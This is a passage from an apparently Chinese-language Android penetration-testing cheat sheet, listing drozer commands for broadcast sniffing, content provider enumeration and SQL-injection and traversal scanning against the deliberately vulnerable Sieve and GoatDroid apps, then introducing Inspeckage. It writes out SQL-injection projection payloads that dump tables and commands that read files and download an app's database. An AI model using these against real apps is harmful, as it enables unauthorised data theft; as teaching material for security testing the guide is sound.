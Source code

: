 ```
示例：app.broadcast.sniff --action "ddns.actiton.Token"
 
10.发送广播
命令：run app.broadcast.send --action 广播名 --extra string name lisi
示例：run app.broadcast.send --action org.owasp.goatdroid.fourgoats.SOCIAL_SMS --extra string phoneNumber 1234 --extra string message dog
 
==============================================
contentProvider测试：
11.获取contentProvider信息
命令：run app.provider.info -a
示例：run app.provider.info -a com.xxx.xxxx
 
12.获取所有可访问的Uri
命令 run scanner.provider.finduris -a
示例 run scanner.provider.finduris -a com.xxx.xxxx
 
13.检测SQL注入
命令 run scanner.provider.injection -a
示例 run scanner.provider.injection -a com.xxx.xxxx
 
14.检测目录遍历
命令 run scanner.provider.traversal -a
示例 run scanner.provider.traversal -a com.xxx.xxxx
 
15.进行SQL注入
命令 run app.provider.query [--projection] [--selection]
示例 run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/
 
列出所有表 run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM SQLITE_MASTER WHERE type='table';--"
获取单表（如Key）的数据 run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM Key;--"
 
16.读取文件系统下的文件
示例 run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/etc/hosts
 
17.下载数据库文件到本地
示例 run app.provider.download content://com.mwr.example.sieve.FileBackupProvider/data/data/com.mwr.example.sieve/databases/database.db d:/database.db

```

### 2.Inspeckage(xposed)

#### [](#（1）inspeckage介绍)（1）Inspeckage 介绍

```
Inspeckage是一个用来动态分析安卓app的xposed模块。Inspeckage对动态分析很多常用的功能进行了汇总并且内建一个webserver。整个分析操作可以在友好的界面环境中进行。

```
